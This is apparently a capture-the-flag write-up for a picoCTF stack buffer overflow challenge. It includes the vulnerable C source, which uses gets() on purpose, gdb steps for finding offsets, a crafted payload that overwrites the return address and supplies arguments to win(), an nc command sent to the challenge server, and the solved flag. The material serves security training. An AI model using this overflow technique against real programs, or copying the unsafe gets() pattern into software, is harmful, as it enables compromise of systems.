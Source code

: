 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/QrT2WHP.png
points: 300
solves: 3110
tags: binary-exploitation buffer-overflow ret-to-win args-on-stack gets
date: 1337-01-01
comments: false
---
```


Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln)?  
You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln.c) here. And connect with it using `nc saturn.picoctf.net [port #]`

---
We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

First things first, do `nano flag.txt` and enter whatever text you’d like into it. This is just so you can run the program in your local machine.  

## Source Analysis:  
Now, looking at the code, and knowing this is a buffer overflow challenge, we notice that the `main()` function calls the `vuln()` function, which then uses the `gets()` function to obtain user input. The `gets()` function is known to be insecure, so we can attack this line of code with a buffer overflow.  

The program retrieves user input and stores it into a variable buf with a buffer size of `BUFSIZE=100`. Hence, all inputs past byte 100 should overflow onto the stack.  

We are also given a `win` function, which retrieves the `flag.txt` file and prints it if two conditions are required: `arg1`, the first function parameter, must be equivalent to `0xcafef00d` and `arg2`, the second function parameter, must be equivalent to `0xf00df00d`.  

Thus, we must do as follows:  

1. Write the win function address into the eip register, which denotes the address of the next instruction to run and is stored somewhere in the stack.  
2. Modify the arg1 and arg2 such that they equal the aforementioned values.  

## Dynamic Analysis:  

### Step 1:  
`chmod +x vuln` to allow execution access
`gdb vuln` to launch the gdb debugger

Use a website (or make your own program) that returns a random string of any length. I personally used a length of 120 (anything reasonably greater than 100 is suitable for now, given that we need to input a value longer than the buffer length) and only the characters 0-9.   

My string was  

    850542294469848845479729569924849643415873641680750387752959608870162960336860448349356446615742071097671930231073322801

Now run the function with the r command and input the string. For my input, I received the following error message:  

    Program received signal SIGSEGV, Segmentation fault.
    0x32333337 in ?? ()


The `0x32333337` denotes the address that the program attempted to return to, i.e. what was written into the eip register. `0x32333337` is `2337` in ascii, but because of little endianness, we have to reverse this string ⇒ `7332`.  
Looking back at the string, notice that `7332` is located at decimal offset 112

<pre>8505422944698488454797295699248496434158736416807503877529596088701629603368604483493564466157420710976719302310<b>7332</b>2801</pre>

Thus, `eip`, the return address register, can be overwritten with the bytes at offset 112 in the input.  

We need to write the win function address into `eip`, so let’s check that with gdb.  
`disass win` should show that the function is located at address `0x08049296`  

Hence, we can write an input file to send to the program:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08' >> input</code>
</pre>

Let's test it out:  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b win
r < input</code>
</pre>

Confirm that the program pauses execution at `Breakpoint 1, 0x0804929e in win ()`  

### Step 2:  
Now we need to modify `arg1` and `arg2` to `0xcafef00d` and `0xf00df00d`.  
`disass win` includes these two lines of assembly:  

    0x0804930c <+118>:   cmpl   $0xcafef00d,0x8(%ebp)
    0x08049315 <+127>:   cmpl   $0xf00df00d,0xc(%ebp)

Comparing it to the source code, this tells us that `arg1` must be located at `$ebp+0x8` and `arg2` must be located at `$ebp+0xc`.  

Let’s check the offset of `ebp` in our input:  
Generate a random string again. I chose a random string of 32 numbers.  
`echo -n '59144761475142004167455988422375' >> input` to append your random string to your input file  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b *win+118
r < input</code>
</pre>

`x/2x $ebp+0x8` to show `$ebp+0x8` and `$ebp+0xc` in the stack ⇒  
`0xffd2d3b4:     0x31363734      0x31353734`  

`0x31363734` ⇒ `1674` in ASCII ⇒ reverse because of little endianness = `4761`  

<pre>5914<b>4761</b>475142004167455988422375</pre>

Thus, `$ebp+0x8` is located 4 bytes after `eip`, the return address, and `$ebp+0xc` is located 8 bytes after `eip`.
Let’s rewrite the input file:

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08\x00\x00\x00\x00\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0' >> input</code>
</pre>
(remember little endianness means you must reverse every group of four bytes)  

`./vuln < input` should return the contents of your flag.txt file!  
`nc -q 2 saturn.picoctf.net 64689 < input` to get the flag. Note that the `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{argum3nt5_4_d4yZ_27ecbf40}